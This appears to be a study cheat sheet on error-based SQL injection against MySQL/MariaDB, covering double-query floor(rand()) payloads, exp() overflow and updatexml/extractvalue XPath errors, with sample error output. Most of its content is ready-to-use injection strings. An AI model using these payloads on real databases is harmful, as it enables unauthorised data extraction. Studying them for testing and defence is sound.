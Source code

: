 # Error based
* Analyze the error message  
```sql
My payload: ?id = 2'
Error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''2'') LIMIT 0,1' at line 1
```
When we see the word such like **near** and **at**，we can delete the single quote at the left side and right side. The left part should be: `'  2'  ') LIMIT 0,1`  
Therefore，our exploit should be: `') or 1=1--+`  
* Double injection
```sql
/**
we need:
count()            
concat()            // the primary key which is collided would be showed in error message，so we should concat our target to the primary key
floor(), rand()
group by
**/
?id = 1' union select count(*),1,concat((select database()),'~',floor(rand()*2))as a from information_schema.schemata group by a--+
// After we understand how it works completely，we can also modify our payload such like following:
?id = 1' or 1=1 group by concat(database(),floor(rand()*2)) having min(0)--+
```  
`floor(rand()x2)` has many same members in the list，and it causes to the collision of `group by key`! (I recommend the following article so much  
  [The recommended aticle](http://dogewatch.github.io/2017/02/27/mysql-Error-Based-Injection/)  
* Integer Overflow  
`exp()` will cause to error when the version of sql is bigger than 5.5.5  
```sql
exp(~(select*from(select user())a));  // the result of the query inside is 0, we will get 18446744073709551615 after the operation of (~), and exp(710) will cause to overflow!
// What is the a at the end? It is alias. We need to assign an alias to subquery (select*from)
```  

`select` can also return the result of the query，it will return 0 if if the query is bigger than 0，and will return 1 if the result is 0 (very important!  
[The recommended article](http://vinc.top/2017/03/23/%E3%80%90sql%E6%B3%A8%E5%85%A5%E3%80%91%E6%95%B4%E5%BD%A2%E6%BA%A2%E5%87%BA%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5%E5%8E%9F%E7%90%86/)  
* xpath syntax error  
`extractvalue()`,`updatexml()` can work on the xml syntax which is provided by the user  
```sql
?id=1" or/and select updatexml(1,concat(1,(select user()),0x7e),1);
?id=1" or/and select extractvalue(1,concat(1,(select database()),0x7e));
?id=1" or/and select extractvalue(rand(),concat(0x3a,@@basedir))#
// Due to the error of xml syntax，database() will also show in the error message

and extracvalue(rand(),concat(0x3a,(select schema_name from information_schema.schemata limit 0,1))#
where table_schema=0xXXXXX

// Some trick
// If the injection point is after the word limit e.g. order by name limit {$_GET[1]}, 10
?1=select id from users where id>5 order by name limit 0,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
// ERROR 1105 (HY000): XPATH syntax error: ':10.1.26-MariaDB'
```
